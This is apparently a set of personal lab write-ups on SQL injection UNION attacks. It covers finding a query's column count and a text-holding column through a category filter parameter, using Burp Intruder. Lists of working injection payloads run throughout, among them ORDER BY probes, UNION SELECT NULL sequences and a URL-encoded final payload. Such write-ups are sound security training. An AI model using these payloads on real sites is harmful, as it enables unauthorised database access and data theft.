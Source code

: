 ```yaml
---
sticker: emoji//1f9ea
---
```


# LABS

## Lab: SQL injection UNION attack, determining the number of columns returned by the query

![](gitbook/cybersecurity/images/Pasted%20image%2020241030154632.png)

To begin with this lab let's take a look at the page:

![](gitbook/cybersecurity/images/Pasted%20image%2020241030154840.png)

We have a `refine your search` section, let's send the request to burp to analyze it:

![](gitbook/cybersecurity/images/Pasted%20image%2020241030155112.png)

We have a `filter?category=` section, I believe this is our injectable section, let's begin with the SQLI:

For this, I will use the notes from \[\[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/INJECTIONS/SQLI/SQL INJECTION (SQLI).md|SQLI]], let's send our request to intruder and start the attack in the following way:

![](gitbook/cybersecurity/images/Pasted%20image%2020241030155422.png)

![](gitbook/cybersecurity/images/Pasted%20image%2020241030155739.png)

Let's launch the attack:

![](gitbook/cybersecurity/images/Pasted%20image%2020241030155927.png) Judging based on the status code and response, we can pretty much visualize `' ORDER BY 3--` was the successful payload, let's look at the response:

![](gitbook/cybersecurity/images/Pasted%20image%2020241030160033.png)

![](gitbook/cybersecurity/images/Pasted%20image%2020241030160134.png)

Now, knowing that 3 is the right one, let's use the UNION attack:

```ad-important
##### USED:


`sql`

'+UNION+select+NULL--
'+UNION+select+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--


```

Let's use intruder again the test our payloads:

![](gitbook/cybersecurity/images/Pasted%20image%2020241030161904.png)

So, the payload that worked was this:

```sql
'+UNION+select+NULL,+NULL,+NULL--
```

Let's send the request and finish the lab:

![](gitbook/cybersecurity/images/Pasted%20image%2020241030162009.png)

### EXPLANATION VIDEO

## Lab: SQL injection UNION attack, finding a column containing text

![](gitbook/cybersecurity/images/Pasted%20image%2020241030162905.png)

### SENDING THE REQUEST

![](gitbook/cybersecurity/images/Pasted%20image%2020241030171439.png)

So, taking advantage of the notes I took previously, this is what could work:

```ad-important

`' UNION SELECT 'a',NULL,NULL,NULL--`
`' UNION SELECT NULL,'a',NULL,NULL--`
`' UNION SELECT NULL,NULL,'a',NULL--`
`' UNION SELECT NULL,NULL,NULL,'a'--`
```

Let's try, first, let's send the request to intruder and launch the attack:

```ad-important

##### USED PAYLOAD:


' UNION select 'abcdef'--
' UNION select NULL,'abcdef',NULL--
' UNION select NULL,NULL,'abcdef',NULL--
' UNION select NULL,NULL,NULL,'abcdef'--
' UNION select NULL,NULL,NULL,NULL,'abcdef'--
' UNION select NULL,NULL,NULL,NULL,NULL,'abcdef'--




```

![](gitbook/cybersecurity/images/Pasted%20image%2020241030173119.png)

If we launch the attack, we realize that:

`' UNION select NULL,'abcdef',NULL--`

Was successful:

![](gitbook/cybersecurity/images/Pasted%20image%2020241030173318.png)

So, we can finish the lab by sending the following request:

`' UNION select NULL,'0lrAqo',NULL--`

But since we need to send it encoded, this would be what we need to send:

`%27%20UNION%20select%20NULL%2C%270lrAqo%27%2CNULL--`

![](gitbook/cybersecurity/images/Pasted%20image%2020241030173523.png)

### EXPLANATION VIDEO
